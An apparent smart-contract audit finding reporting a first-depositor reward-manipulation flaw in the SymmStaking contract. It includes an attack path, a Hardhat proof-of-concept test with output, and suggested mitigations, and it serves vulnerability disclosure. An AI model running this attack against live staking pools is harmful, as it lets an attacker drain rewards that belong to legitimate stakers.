 Tall Coal Millipede

High

# Reward Calculation Manipulation via Initial Tiny Deposit

### Summary

The SymmStaking contract's reward calculation mechanism is vulnerable to manipulation when an attacker makes an initial tiny deposit followed by a large deposit. This exploit allows the attacker to claim disproportionately high rewards due to an incorrect order of state updates in the `deposit` function.

### Root Cause

The vulnerability exists in the interaction between [`rewardPerToken()`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L194-L202) and [`earned()`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L210-L214) calculations when transitioning from `totalSupply = 0` to a very small, non-zero totalSupply. When a user makes the first deposit with a minimal amount, the reward rate remains constant but is distributed to an extremely small supply, resulting in disproportionately high rewardPerToken values.

### Internal Pre-conditions

none

### External Pre-conditions

none

### Attack Path

1. Attacker observes a new staking pool or notices rewards have been added to a pool with `totalSupply = 0`
2. Attacker makes a minimal first deposit (e.g., 0.0001 tokens)
3. System starts distributing rewards with the attacker receiving 100% of them
4. When legitimate users deposit significant amounts later, the high `rewardPerToken` value has already been recorded
5. Attacker claims an extremely disproportionate amount of rewards compared to their stake

### Impact

The attacker can drain a significant portion of rewards intended for the pool participants while contributing minimally to the pool.

### PoC

```javascript
it("First depositor attack demonstration", async function () {
    // Admin adds rewards to the pool
    const rewardAmount = "604800"
    await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
    await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
    await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])
    
    // Test Case 1: Attacker deposits minimal amount first
    const smallDeposit = e("0.0001") // 0.0001 SYMM tokens
    await stakingToken.connect(user1).approve(await symmStaking.getAddress(), smallDeposit)
    await symmStaking.connect(user1).deposit(smallDeposit, user1.address)
    
    const perTokenStoredAfterSmallDeposit = await (await symmStaking.rewardState(usdtToken.getAddress())).perTokenStored
    console.log("perTokenStored after small deposit:", perTokenStoredAfterSmallDeposit);
    
    // Another user deposits a large amount
    await stakingToken.connect(user2).approve(await symmStaking.getAddress(), e("100"))
    await symmStaking.connect(user2).deposit(e("100"), user2.address)
    
    const perTokenStoredAfterLargeDeposit = await (await symmStaking.rewardState(usdtToken.getAddress())).perTokenStored
    console.log("perTokenStored after large deposit:", perTokenStoredAfterLargeDeposit);
    
    // The value of perTokenStored is very high (20000 in test), giving attacker disproportionate rewards
})
```
Results:

`
perTokenStored after small deposit: 0n
perTokenStored after large deposit: 20000n
`

When changing the first deposit to 1 SYMM token instead of 0.0001:

`
perTokenStored after small deposit: 0n
perTokenStored after large deposit: 2n
`

This demonstrates that small initial deposits lead to manipulated reward calculations.

### Mitigation

1. **Initial Deposit:** Deploy the contract with a minimum initial stake by a trusted party to prevent totalSupply from being zero or very small.
2. **Minimum Deposit Threshold:** Implement a minimum deposit requirement that is sufficiently large to prevent these attacks.
3. **Reward Cap:** Add a maximum cap on rewardPerToken increases to limit the impact of manipulated ratios.
4. **Balance-Weighted First Period:** Make the first reward period after totalSupply becomes non-zero distribute rewards based on relative balance weight over time rather than using the standard formula.